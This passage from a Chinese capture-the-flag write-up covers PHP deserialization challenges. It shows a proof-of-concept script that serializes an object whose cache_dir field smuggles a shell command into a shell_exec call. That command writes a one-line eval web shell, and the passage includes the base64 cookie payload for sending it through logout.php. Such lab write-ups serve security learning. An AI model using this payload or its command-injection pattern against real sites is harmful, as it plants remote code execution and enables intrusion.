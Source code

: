 ```php
echo base64_encode(serialize($a));
```

还是传到cookie里，然后访问一下index.php就可以把马写入了

![](https://i.loli.net/2021/10/06/R9jLMI34XQyoP6s.png)

flag在flag.php里



## 307 反序列化传马

> 是不是顺眼多了

把文件分类放好了，seay一扫发现两个：![](https://i.loli.net/2021/10/06/YvhdcNmqJ9QCf7T.png)
找到shell_exec在dao.php里

```php
	public function  clearCache(){
		shell_exec('rm -rf ./'.$this->config->cache_dir.'/*');
	}
```

再找调用它的地方

![](https://i.loli.net/2021/10/06/U6zXYIWpMs8R7hb.png)

看了一下，决定在logout.php操作

```php
$service = unserialize(base64_decode($_COOKIE['service']));
if($service){
	$service->clearCache();
}
```

poc：

```php
<?php

class config{
    public $cache_dir = ';echo  "<?php eval(\$_POST[1]);?>" > a.php;';
}

class dao{
    private $config;
        public function __construct(){
        $this->config=new config();
    }
}


$a = new dao();
echo base64_encode(serialize($a));

# TzozOiJkYW8iOjE6e3M6MTE6IgBkYW8AY29uZmlnIjtPOjY6ImNvbmZpZyI6MTp7czo5OiJjYWNoZV9kaXIiO3M6NDM6IjtlY2hvICAiPD9waHAgZXZhbChcJF9QT1NUWzFdKTs/PiIgPiBhLnBocDsiO319
```
